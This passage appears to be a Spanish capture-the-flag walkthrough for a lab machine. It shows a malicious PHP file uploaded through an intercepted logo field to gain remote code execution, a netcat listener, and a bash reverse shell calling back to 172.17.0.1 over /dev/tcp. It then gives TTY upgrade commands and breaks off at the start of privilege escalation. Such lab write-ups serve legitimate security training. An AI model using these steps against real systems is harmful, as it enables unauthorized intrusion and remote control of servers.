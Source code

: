 ## INTRUSIÓN

Así que para explotar esta vulnerabilidad, nos vamos a nuestro panel, le damos a "Add first suscription" y ponemos cualquier cosa, pero interceptamos la petición con BurpSuite:

![image](https://github.com/user-attachments/assets/5f01952d-915a-4525-a3f5-f83437656607)

En la parte del logo ponemos el código PHP para ganar el RCE y le damos a forward. Vemos que en el archivo en el que explica la vulnerabilidad pone que los logos se guardan en http://VICTIM_IP/images/uploads/logos/XXXXXX-yourshell.php, así que vamos a http://panel.wallet.dl/images/uploads/logos/:

![image](https://github.com/user-attachments/assets/dde5b191-b723-417e-a0f1-a46c732fa238)

Cargamos el archivo PHP y probamos a ejecutar el comando `id`:

![image](https://github.com/user-attachments/assets/48ff6a0c-ea65-4cf8-a2d2-d6286ff339ce)

Vemos que funciona. Ahora nos ponemos en escucha por el puerto 443 con netcat:

```python
nc -nlvp 443
```

Y ejecutamos este comando desde la Webshell:

```python
/bin/bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"
```

![image](https://github.com/user-attachments/assets/6acf4108-273e-450a-ae07-40a0af17dabc)

## TRATAMIENTO TTY

```python
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
stty rows <filas> columns <columnas>
```

Para ver el número de filas y columnas que usa tu pantalla, ejecutas `stty -a`.

## ESCALADA DE PRIVILEGIOS

### pylon

Siendo el usuario www-data, ejecutamos `sudo -l`:

![image](https://github.com/user-attachments/assets/df9001a8-e6d7-4f24-9c8e-31eaedc85cf2)
